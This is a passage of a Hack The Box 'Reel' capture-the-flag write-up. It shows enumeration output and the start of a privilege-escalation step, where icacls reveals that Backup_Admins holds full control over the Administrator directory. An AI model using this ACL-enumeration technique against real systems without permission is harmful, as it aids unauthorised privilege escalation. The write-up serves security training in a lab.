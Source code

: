 ```bash
                             *MegaBank_Users       *DR_Site                                                                     
                             *Restrictions                                                                                      
The command completed successfully.
```

## PrivEsc → Administrator

After some enumeration, I came to know Backup_Admins have access over Administrator Directory.

```bash
claire@REEL C:\Users>icacls Administrator                                                                                       
Administrator NT AUTHORITY\SYSTEM:(OI)(CI)(F)                                                                                   
              HTB\Backup_Admins:(OI)(CI)(F)                                                                                     
              HTB\Administrator:(OI)(CI)(F)                                                                                     
              BUILTIN\Administrators:(OI)(CI)(F)                                                                                

Successfully processed 1 files; Failed processing 0 files
```

- F - Full access

I entered into the directory. Still I can't read the root flag.

```bash
claire@REEL C:\Users>cd Administrator                                                                                           

claire@REEL C:\Users\Administrator>dir                                                                                          
 Volume in drive C has no label.                                                                                                
 Volume Serial Number is CC8A-33E1                                                                                              

 Directory of C:\Users\Administrator                                                                                            

02/17/2018  12:29 AM    [DIR](DIR)          .                                                                                        
02/17/2018  12:29 AM    [DIR](DIR)          ..                                                                                       
10/28/2017  12:14 AM    [DIR](DIR)          .config                                                                                  
10/28/2017  12:28 AM    [DIR](DIR)          .oracle_jre_usage                                                                        
10/28/2017  12:00 AM    [DIR](DIR)          Contacts                                                                                 
01/21/2018  03:56 PM    [DIR](DIR)          Desktop                                                                                  
05/29/2018  10:19 PM    [DIR](DIR)          Documents                                                                                
02/17/2018  12:29 AM    [DIR](DIR)          Downloads                                                                                
10/28/2017  12:00 AM    [DIR](DIR)          Favorites                                                                                
10/28/2017  12:00 AM    [DIR](DIR)          Links                                                                                    
```